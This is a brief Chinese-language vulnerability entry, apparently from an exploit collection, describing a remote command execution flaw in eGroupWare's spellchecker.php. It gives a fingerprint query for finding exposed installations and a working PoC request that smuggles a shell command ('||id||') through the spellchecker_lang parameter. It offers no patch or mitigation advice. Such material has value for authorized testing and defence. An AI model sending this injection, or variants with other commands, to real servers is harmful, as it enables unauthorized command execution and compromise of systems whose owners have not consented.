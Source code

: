 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

<a-checkbox checked>eGroupWare</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EGROUPWARE-产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629087827840-2daaeca6-8c17-48dd-bbb4-5a7f4746b181.png)

验证POC

```bash
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![img](../../../.vuepress/public/img/1629088046554-f44013d6-babd-4708-bd9b-ce93b4fbd12a.png)

